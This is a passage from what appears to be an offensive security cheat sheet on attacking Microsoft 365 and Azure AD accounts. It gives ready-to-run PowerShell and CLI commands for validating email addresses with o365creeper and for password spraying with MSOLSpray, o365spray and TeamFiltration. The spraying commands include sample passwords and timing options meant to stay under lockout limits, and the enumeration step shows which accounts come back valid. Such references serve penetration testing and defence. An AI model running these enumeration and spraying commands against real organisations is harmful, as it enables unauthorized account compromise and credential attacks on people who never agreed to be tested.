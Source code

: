
### Enumerate Emails

> By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Validate email 
    ```powershell
    PS> C:\Python27\python.exe C:\Tools\o365creeper\o365creeper.py -f C:\Tools\emails.txt -o C:\Tools\validemails.txt
    admin@<TENANT NAME>.onmicrosoft.com   - VALID
    root@<TENANT NAME>.onmicrosoft.com    - INVALID
    test@<TENANT NAME>.onmicrosoft.com    - VALID
    contact@<TENANT NAME>.onmicrosoft.com - INVALID
    ```
* Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon
    ```powershell
    Install-Module MSOnline
    Install-Module AzureAD
    .\o365recon.ps1 -azure
    ```


### Password Spraying

The default lockout policy tolerates 10 failed attempts, then lock out an account for 60 seconds.

* [dafthack/MSOLSpray](https://github.com/dafthack/MSOLSpray)
    ```powershell
    PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
    PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
    PS> Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
    PS> Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!
    ```
* [0xZDH/o365spray](https://github.com/0xZDH/o365spray)
    ```powershell
    o365spray --spray -U usernames.txt -P passwords.txt --count 2 --lockout 5 --domain test.com
    ```
* [Flangvik/TeamFiltration](https://github.com/Flangvik/TeamFiltration) 
    ```powershell
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push --shuffle-users --shuffle-regions
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\2021\FooBar\Exclude_Emails.txt
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --passwords C:\Clients\2021\FooBar\Generic\Passwords.txt --time-window 13:00-22:00
    ```

## Azure Services Enumeration

### Enumerate Tenant Domains
